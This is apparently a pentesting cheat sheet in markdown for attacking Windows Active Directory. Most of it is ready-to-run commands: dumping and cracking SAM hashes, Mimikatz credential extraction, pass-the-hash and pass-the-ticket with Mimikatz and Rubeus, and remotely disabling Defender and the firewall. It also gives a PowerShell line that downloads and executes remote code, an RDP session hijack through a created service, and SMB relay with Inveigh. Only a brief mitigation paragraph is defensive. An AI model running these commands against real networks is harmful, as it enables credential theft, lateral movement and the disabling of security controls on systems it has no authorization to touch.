

# Before u start
u must have local priv in the machine u own

# How Kerberos Work


# Dumping SAM and SYSTEM
```bash
C:\Windows\System32\config
reg save HKLM\sam sam
reg save HKLM\system system

samdump2 SYSTEM SAM > hashes.txt

# Crack the passwords
hashcat -m 1000 -a 3 hashes.txt rockyou.txt
```

# SAM & LSA with MimiKatz
```bash
powershell -ep bypass
import-module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Verbose -Domain pentesting
```

Download Mimikatz:
https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1

```bash
powershell -ep bypass
import-module .\Invoke-Mimikatz
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'
```

# PassTheHash with MimiKatz

A Pass-the-Hash (PtH) attack is a technique whereby an attacker captures a password hash (as opposed to the password characters) and then simply passes it through for authentication and potentially lateral access to other networked systems. The threat actor doesn’t need to decrypt the hash to obtain a plain text password. PtH attacks exploit the authentication protocol, as the passwords hash remains static for every session until the password is rotated. Attackers commonly obtain hashes by scraping a system’s active memory and other techniques.

```bash
Import-Module .\Invoke-Mimikatz 
Invoke-Mimikatz -Command '"sekurlsa::pth /user:student5 /domain:... /ntlm:... /run:powershell.exe"'

Import-Module .\Powerview.ps1
Get-DomainComputer
```

## see if we have access to a server
```bash
Invoke-Command -ComputerName ad -ScriptBlock{whoami; whoami /groups; hostname}
Invoke-Command -ComputerName web -ScriptBlock{whoami; whoami /groups; hostname}
```

## creating a session and hosting on a variable
```bash
$sess = New-PSsession -ComputerName web 
```

## Disable AV and Firewall
```bash
Invoke-Command -ScriptBlock{Set-MpPreference -DisableRealtimeMonitoring $true} -Session $sess
Invoke-Command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
Invoke-Command -ScriptBlock{netsh advfirewall set allprofiles state off} -Session $sess
```

## Entering Created Session
```bash
Enter-PSsession $sess
IEX (New-Object Net.webClient).DownloadString('link'); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -DumpCreds;
```

# Passing The Ticket

```bash
powershell -ep bypass
import-module .\invoke-mimikatz.ps1
invoke-mimikatz -Command '"Mimikatz::debug" "sekurlsa::tickets /export" "exit"'
invoke-mimikatz -Command '"Mimikatz::debug" "kerberos::ptt TicketName" "exit"'
klist # to see the ticket
dir \\web\c$
Invoke-Command -ComputerName web -ScriptBlock{whoami; whoami /groups; hostname}
Enter-PSSession -ComputerName web
# check applocker
```

# Pass the Ticket with Rubeus

```bash
.\Rubeus.exe klist
.\Rubeus.exe dump
.\Rubeus.exe ptt /ticket:doIFSjCCBUagAwIBBaEDAgEWooIEQzCCBD9hg<SNIP>
```

## You can Also, Pass the hash
```bash
.\Rubeus.exe asktgt /user:student5 /domain:pentesting /rc4:602f5c34346bc946f9ac2c0922cd9ef6
```

## Triage All Current Tickets (If Elevated List all Users)
```bash
.\Rubeus.exe triage
s
```
## List all Current Tickets in Details (If Elevated List all Users)
```bash
\Rubeus.exe klist

runas /user:jenkinsadmin /savecred "<ProgramName> <PathToProgramFile>"
```

## resource on the types of Logon Types:

https://docs.microsoft.com/en-us/windows-server/identity/securing-privileged-access/securing-privileged-access-reference-material

- Local Login: Physically Logging in at Your Workstation

- `runas`: Perhaps you are a Low Level Helpdesk who uses /runas to spawn a CMD with DA Account, this will result in a TGT for the DA account be cached in LSSAS

- `runas /netonly`: TGT will appear after running a network command (\\IP\SYSVOL) or something

- `PsExec \\server -u user -p pwd cmd` - PSExec leaves a TGT providing explicit credentials were defined

Remote Desktop (RDP)
--------------------

## Mitigation / Defending against PTT
It goes without saying that defending against PTT is very tricky as you are simply using normal functions of Kerberos in a malicious way - All you are really doing is using Kerberos tickets as they would be used, TGT to request service TGS Ticket, and accessing services with TGS.

However as tickets are stored in LSASS I recommend you do not log into end-users stations with privileged accounts i/e do not log into a HR User with your Domain Account with a interactive session…

It is also advised to ensure that Kerberos tickets are set to expire within 10 hours.

# Session Hijack
## Elevate permission to SYSTEM
```bash
PsExec.exe -s \\localhost cmd
whoami
```

## Get Conneted user
```bash
query user
```

## Create service which will hijack user's session:
```bash
sc create sesshijack binpath= "cmd.exe /k tscon ID /dest:rdp-tcp#UrSession"
```

## start the service
```bash
net start sesshijack
```

# SMB Relay

## Download Inveigh here:
https://github.com/Kevin-Robertson/InveighZero

## Run Inveigh.exe as Admin
Inveigh.exe

## Send password offline for cracking
hashcat -m 5600 hadams.txt rockyou.txt
